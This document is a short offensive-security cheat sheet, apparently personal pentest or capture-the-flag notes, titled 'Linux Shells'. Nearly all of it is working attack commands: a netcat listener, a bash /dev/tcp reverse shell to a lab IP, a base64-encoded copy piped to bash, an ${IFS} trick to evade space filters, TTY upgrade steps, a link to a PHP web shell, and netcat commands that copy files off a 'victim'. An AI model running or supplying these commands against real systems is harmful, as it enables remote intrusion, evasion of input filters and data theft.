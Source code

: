 # Linux Shells

All things linux shells

## Basic Reverse Shell

### Start Listener

```bash
rlwrap nc -lvp 9001
```

Note: Prepending `rlwrap` provides a more user-friendly shell experience

### Launch Connection

#### Start with basic shell code

```bash
bash -i >& /dev/tcp/10.10.14.177/9001 0>&1
```

#### Base64 encode it if necessary

- This allows us to bypass potential special character restrictions, while also ensuring the redirections and file descriptors are handled properly

```bash
echo 'bash -i >& /dev/tcp/10.10.14.191/9001 0>&1' | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOTEvOTAwMSAwPiYxCg==
```

#### Encoded Payload

```bash
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNzcvOTAwMSAwPiYxCg==' | base64 -d | bash
```

### Upgrade Shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo; fg
ENTER
export TERM=xterm
```

Note: `export TERM=xterm` allows you clear screen with `ctrl+l`

### Bypass Filters

- Bypass space filter
	- Replacing spaces with `${IFS}` (possibly `${IFS%??}` if that doesn't work)
	- `echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNzcvOTAwMSAwPiYxCg=='${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash`

### Links

- [revshells](https://www.revshells.com/)
- [p0wny-shell](https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php)

---

## Miscellaneous

### Download files

#### On Kali

```bash
nc -lvp 1234 > example.txt
```

#### On victim

```bash
nc 10.10.14.177 1234 < example.txt
```

